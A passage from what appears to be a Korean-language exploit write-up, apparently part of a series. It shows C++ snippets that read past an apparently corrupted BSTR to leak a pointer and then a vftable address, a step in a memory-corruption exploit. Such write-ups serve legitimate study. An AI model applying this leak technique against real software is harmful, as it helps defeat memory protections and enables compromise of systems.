 ```cpp
strSize = SysStringByteLen(bStrings[0]);
printf("Modified String size: %d\n", (int)strSize);
...
```

![pwncoolsexy-part3/Untitled%204.png](pwncoolsexy-part3/Untitled%204.png)

![pwncoolsexy-part3/Untitled%205.png](pwncoolsexy-part3/Untitled%205.png)

이제 vftable 주소를 읽는 것만 남았습니다.

```cpp
...
std::wstring ws(bStrings[0], strSize);
std::wstring ref = ws.substr(120 + 16, 4);
char buf[4];
memcpy(buf, ref.data(), 4);
int refAddr = int((unsigned char)(buf[3]) << 24 | (unsigned char)(buf[2]) << 16 | (unsigned char)(buf[1]) << 8 | (unsigned char)(buf[0]));
memcpy(buf, (void*)refAddr, 4);
int vftable = int((unsigned char)(buf[3]) << 24 | (unsigned char)(buf[2]) << 16 | (unsigned char)(buf[1]) << 8 | (unsigned char)(buf[0]));
printf("Found vftable address : 0x%08x\n", vftable);
...
```

![pwncoolsexy-part3/Untitled%206.png](pwncoolsexy-part3/Untitled%206.png)

